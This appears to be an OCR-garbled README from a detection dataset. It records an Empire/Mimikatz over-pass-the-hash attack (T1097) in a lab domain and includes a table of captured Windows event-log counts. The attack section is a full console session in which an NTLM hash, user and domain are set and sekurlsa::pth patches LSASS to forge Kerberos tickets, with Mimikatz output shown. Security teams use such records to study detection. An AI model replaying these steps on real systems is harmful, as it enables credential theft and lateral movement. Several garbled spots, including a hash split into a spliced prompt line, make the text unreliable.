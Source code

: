 
# Empire Mimikatz Over-Pass-The-Hash

When sekurlsa::pth is used to over-pass-the-hash, Mimikatz first creates a new logon type 9 process with dummy credentials - this creates a new "sacrificial" logon session that doesn't interact with the current logon session. It then opens the LSASS process with the ability to write to process memory, and the supplied hash/key is then patched into the appropriate section for the associated logon session (in this case, the "sacrificial" logon session that was started). This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT.

## Technique(s) ID

T1097

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## dataset

[empire_mimikatz_opth.tar.gz](./empire_rmimikatz_opth.tar.gz)

## Nnetwork Environment

Shire

## Time Taken

2019-03-19131123

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2093 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| Security                                 | Filtering Platform Connection                          |             286 |
| Security                                 | Token Right Adjusted Events                            |              96 |
| Security                                 | User Account Management                                |              23 |
| Security                                 | Sensitive Privilege Use                                |              12 |
| Security                                 | Detailed File Share                                    |              10 |
| Security                                 | Group Membership                                       |              10 |
| Security                                 | Logon                                                  |              10 |
| Security                                 | Special Logon                                          |              10 |
| Security                                 | Logoff                                                 |               9 |
| Security                                 | Process Creation                                       |               6 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | Authorization Policy Change                            |               1 |
| Security                                 | File Share                                             |               1 |
| Security                                 | Kerberos Service Ticket Operations                     |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Security System Extension                              |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             265 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             221 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |             137 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              85 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              26 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              16 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |              14 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              11 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               7 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2051 |

## Empire Activity

```
(Empire: 8BLV6USC) > usemodule credentials/mimikatz/pth*
(Empire: powershell/credentials/mimikatz/pth) > info

              Name: Invoke-Mimikatz PTH
            Module: powershell/credentials/mimikatz/pth
        NeedsAdmin: True
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @JosephBialek
  @gentilkiwi

Description:
  Runs PowerSploit's Invoke-Mimikatz function to execute
  sekurlsa::pth to create a new process. with a specific
  user's hash. Use credentials/tokens to steal the token
  afterwards.

Comments:
  http://clymb3r.wordpress.com/ http://blog.gentilkiwi.com
  http://blog.cobaltstrike.com/2015/05/21/how-to-pass-the-
  hash-with-mimikatz/

Options:

  Name   Required    Value                     Description
  ----   --------    -------                   -----------
  CredID False                                 CredID from the store to use for ticket 
                                               creation.                               
  domain False                                 The fully qualified domain name.        
  ntlm   False                                 The NTLM hash to use.                   
  user   False                                 Username to impersonate.                
  Agent  True        8BLV6USC                  Agent to run module on.                 

4f81f8c89a2a384f4a68credentials/mimikatz/pth) > set ntlm b415baa073a1 
(Empire: powershell/credentials/mimikatz/pth) > set user Mmidge
(Empire: powershell/credentials/mimikatz/pth) > set domain shire.com
(Empire: powershell/credentials/mimikatz/pth) > execute
[*] Tasked 8BLV6USC to run TASK_CMD_JOB
[*] Agent 8BLV6USC tasked with task ID 3
[*] Tasked agent 8BLV6USC to run module powershell/credentials/mimikatz/pth
(Empire: powershell/credentials/mimikatz/pth) > Job started: 6DH2RP
Hostname: IT001.shire.com / S-1-5-21-2511471446-1103646877-3980648787

  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /user:Mmidge /domain:shire.com /ntlm:b415baa073a14f81f8c89a2a384f4a68
user	: Mmidge
domain	: shire.com
program	: cmd.exe
impers.	: no
NTLM	: b415baa073a14f81f8c89a2a384f4a68
  |  PID  7920
  |  TID  8308
  |  LSA Process is now R/W
  |  LUID 0 ; 85924706 (00000000:051f1b62)
  \_ msv1_0   - data copy @ 000001BD859AEBA0 : OK !
  \_ kerberos - data copy @ 000001BD85999068
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001BD85902A78 (32) -> null


Use credentials/token to steal the token of the created PID.


(Empire: powershell/credentials/mimikatz/pth) >
```
